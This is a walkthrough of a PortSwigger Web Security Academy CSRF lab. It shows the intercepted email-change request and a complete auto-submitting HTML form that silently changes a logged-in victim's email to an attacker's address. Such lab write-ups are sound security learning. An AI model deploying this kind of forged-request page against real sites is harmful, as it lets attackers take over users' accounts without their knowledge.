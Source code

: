 ## Labs Covered

This write-up focuses on the following labs from the PortSwigger Web Security Academy related to **Cross-Site Request Forgery (CSRF)**:

**CSRF vulnerability with no defenses**  
This lab demonstrates how attackers can exploit CSRF vulnerabilities in applications that lack any protection against such attacks.

---

### LAB 1 - CSRF vulnerability with no defenses

### Lab Description

![image](https://github.com/user-attachments/assets/4fb83958-726b-44f8-964f-a62baf495341)

### Solution

## Overview

This lab demonstrates a basic **Cross-Site Request Forgery (CSRF)** attack where the email change functionality is not protected by any anti-CSRF mechanisms.

---

## Step-by-Step Walkthrough

### 1. Logging In

- I logged into the application using the provided credentials:
```

Username: wiener
Password: peter

````

![image](https://github.com/user-attachments/assets/f1e65c51-136c-467c-85a7-172edfd3d912)


### 2. Navigating to Vulnerable Functionality

- After login, I navigated to the **My Account** page.
- I observed an **Update email address** form where users can change their registered email.

### 3. Analyzing the Request in Burp Suite

- I intercepted the email change request in **Burp Suite**.
- The POST request looked like this:

```http
POST /my-account/change-email HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Cookie: session=your_session_cookie

email=admin@abc.com
````

![image](https://github.com/user-attachments/assets/30dd02a7-43ed-44fb-b8fa-01f698c32105)


* Key Observations:

  * No anti-CSRF tokens were present.
  * No custom headers like `X-CSRF-Token`.
  * Only a single parameter: `email`.

This confirmed that the application **lacked CSRF protection**.

---

## 4. Generating the CSRF Proof of Concept (PoC)

* In Burp, I right-clicked the request and selected:

  ```
  Engagement tools > Generate CSRF PoC
  ```

![image](https://github.com/user-attachments/assets/34b1dc5b-ab68-40b7-be55-a4264637dc9a)

* I enabled the **Auto-submit script** from the **Options** tab.

![image](https://github.com/user-attachments/assets/d6184a2c-0382-4b9d-b269-33b9c3885102)


* Final CSRF HTML PoC:

```html
<html>
  <body>
    <form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="email-attacker@example.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Replace `YOUR-LAB-ID` with your actual lab domain.

---

## 5. Delivering the Exploit

* I hosted the PoC on the **exploit server** provided in the lab.
* Clicked **"Deliver exploit to victim"**.

  ![image](https://github.com/user-attachments/assets/182b5309-2372-408c-8f59-2f01ecc1561a)

  
* When the victim (logged-in user) visited the page, their email was silently changed to `email-attacker@example.com`.

![image](https://github.com/user-attachments/assets/90512ba2-ef1b-4b29-88c9-3444c238bbeb)

---

